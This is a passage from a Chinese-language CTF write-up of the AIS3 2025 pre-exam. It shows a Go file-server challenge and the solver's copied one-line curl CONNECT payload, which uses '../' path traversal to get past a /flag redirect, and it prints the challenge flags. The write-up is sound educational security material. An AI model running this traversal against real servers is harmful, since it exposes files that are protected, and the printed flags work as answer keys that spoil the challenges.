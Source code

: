 **Flag: AIS3{Success!!!!!_y0u_are_M6s73r_0f_python@z1p_1s_c00l...and_dec0rat0r_1s_c00l!}**

# Web

## Tomorin db 🐧

> Author : naup96321 <br>
Solved: 282

### Solve

![alt text]({{site.baseurl}}/assets/images/AIS3-2025-pre-exam/Tomorin-db/problem.png)

一個會把 `/flag` redirect 的 golang server

```go
package main

import "net/http"

func main() {
    http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
    http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
        http.Redirect(
            w,
            r,
            "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6",
            http.StatusFound
        )
    })
    http.ListenAndServe(":30000", nil)
}
```

### Solve

Google 後找到一樣的[題目](https://bycsec.top/2021/02/07/golang%E7%9A%84%E4%B8%80%E4%BA%9B%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/#:~:text=%E4%B8%8E%E4%B8%8A%E4%BC%A0%E3%80%82-,weird%20stuff,-%E5%9C%A8%E4%B9%8B%E5%89%8D%E7%9A%84)，直接抄 payload

`curl --path-as-is -X CONNECT http:///../flag`

**Flag: AIS3{G01ang_H2v3_a_c0O1_way!!!_Us3ing_C0NN3ct_M3Th07_L0l@T0m0r1n_1s_cute_D0_yo7_L0ve_t0MoRIN?}**

## Login Screen 1

> Author: Ching367436 <br>
Solves: 217

### Problem
